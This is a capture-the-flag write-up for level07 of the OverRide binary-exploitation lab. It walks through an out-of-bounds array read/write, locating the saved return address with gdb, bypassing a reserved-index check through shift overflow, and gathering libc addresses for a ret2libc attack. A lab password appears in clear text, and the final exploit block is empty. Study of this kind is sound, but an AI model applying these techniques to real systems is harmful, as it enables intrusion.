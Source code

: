 ```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level07
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level07@192.168.56.101's password: GbcPDRgsFK77LNnnuh7QyFYA2942Gp8yKj9KrWD8

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level07/level07
```

The program wipes arguments and environment variables. It creates a static array of 400 bytes fo data of storage. It executes a loop prompting the user to enter the command to execute: `store`, `read` or `quit`.
`store_number()` receives a pointer to `data` array and store a number to the given index. Indexes which are modulo 3 and 183rd index are reserved and cannot be assignable.
`read_number()` receive a pointer to `data` array and read the number stored in the given index.
In case of successful execution of command, `main()` prints corresponding message, as well as for unsuccessful execution.
The last instruction zeroing out memory of `command` and it loop again asking the user a command.

`read_number()` do not check if input index, so it allow to read out of boundaries of `data` array. Over 694rd index, program crash with segfault.
```shell
level07@OverRide:~$ ./payload.py --max 1000 | ./level07
[...]
Input command:  Index:  Number at data[693] is 0
 Completed read command successfully
Input command:  Index:  Number at data[694] is 0
 Completed read command successfully
Input command:  Index: Segmentation fault (core dumped)
```
Saved EIP on `main()` function is `0xf7e45513`. While reading out of boundaries of array saved `EIP` should appear.
```gdb
[----------------------------------registers-----------------------------------]
EAX: 0x0
EBX: 0xf7fceff4 --> 0x1a2d7c
ECX: 0xffffd600 --> 0x0
EDX: 0xffffd600 --> 0x0
ESI: 0x0
EDI: 0x0
EBP: 0x0
ESP: 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:        mov    DWORD PTR [esp],eax)
EIP: 0x80489f1 (<main+718>:     ret)
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x80489ee <main+715>:        pop    esi
   0x80489ef <main+716>:        pop    edi
   0x80489f0 <main+717>:        pop    ebp
=> 0x80489f1 <main+718>:        ret
   0x80489f2:   nop
   0x80489f3:   nop
   0x80489f4:   nop
   0x80489f5:   nop
[------------------------------------stack-------------------------------------]
0000| 0xffffd6bc --> 0xf7e45513 (<__libc_start_main+243>:       mov    DWORD PTR [esp],eax)
0004| 0xffffd6c0 --> 0x1
0008| 0xffffd6c4 --> 0xffffd754 --> 0xffffd88f --> 0x0
0012| 0xffffd6c8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
0016| 0xffffd6cc --> 0xf7fd3000 --> 0xf7e2c000 --> 0x464c457f
0020| 0xffffd6d0 --> 0x0
0024| 0xffffd6d4 --> 0xffffd71c --> 0xf7ffcff4 --> 0x20f1c
0028| 0xffffd6d8 --> 0xffffd75c --> 0xffffd8ab --> 0x0
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ info frame
Stack level 0, frame at 0xffffd6c0:
 eip = 0x80489f1 in main; saved eip 0xf7e45513
 called by frame at 0xffffd730
 Arglist at unknown address.
 Locals at unknown address, Previous frame's sp is 0xffffd6c0
 Saved registers:
  eip at 0xffffd6bc
gdb-peda$ x/wx 0xffffd6bc
0xffffd6bc:     0xf7e45513
```
Indeed, on reading 1000 bytes, `EIP` it can be seen.
```shell
level07@OverRide:~$ ./payload.py --max 500 | ./level07 | grep -o "Number at data.*$" | cut -d' ' -f5 | sort -hu | sed 's/^/printf "0x%08x" /e' | grep 0xf7e45513
0xf7e45513
level07@OverRide:~$
```
Or without `payload.py`
```shell
level07@OverRide:~$ python -c "print(0xf7e45513)"
4158936339
level07@OverRide:~$ for i in {0..500}; do (echo read; echo $i; echo quit) | ./level07 | if [ $(grep -oE '[0-9]+$') -eq 4158936339 ]; then echo "EIP is on index $i"; fi; done
EIP is on index 114
```

While reading/storing a number from data storage, the index is used to determine the absolute address from where to read/write strating from beggining of `data` array.
```
data[index<<2] = number
```
On writting to index 1 it will write to `data[1 << 2] = number`, same as `data[4] = number` .
On writting to index 114 it will write to `data[114 << 2] = number`, same as `data[456] = number` .

Retrieve `system()`, `exit()` and `"/bin/sh"` addresses.
```gdb
[...]
gdb-peda$ print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
gdb-peda$ print exit
$2 = {<text variable, no debug info>} 0xf7e5eb70 <exit>
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 1 results, display max 1 items:
libc : 0xf7f897ec ("/bin/sh")
```
Convert them to decimal values.
```gdb
gdb-peda$ p/d 0xf7e6aed0
$3 = 4159090384
gdb-peda$ p/d 0xf7e5eb70
$4 = 4159040368
gdb-peda$ p/d 0xf7f897ec
$5 = 4160264172
```
In the binary representation (32 bits), value `114` looks like:
```
0000 0000   0000 0000   0000 0000   0111 0010
```
Shift operation is destructive. Excess bits shifted off to the left are discarded, and zero bits are shifted in from the right.
Knowing that `store_number()` use rigth-shift operation (multiplication x4) `data[index << 2] = number`, first two MSB bits can be set switch on.

In the first time it will make pass the condition %3, and in the second time at the time of <<2 will result in index 456
| Binary value                                    | Decimal value  | Modulo result | Usable | Binary value after shift <<2                    | Decimal value after shift <<2 |
|-------------------------------------------------|----------------|---------------|--------|-------------------------------------------------|-------------------------------|
| `0100 0000   0000 0000   0000 0000   0111 0010` | 1073741938     | 1             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1000 0000   0000 0000   0000 0000   0111 0010` | 2147483762     | 2             | Yes    | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |
| `1100 0000   0000 0000   0000 0000   0111 0010` | 3221225586     | 0             | No     | `0000 0000   0000 0000   0000 0001   1100 1000` | 456                           |

# Exploit
```shell
```

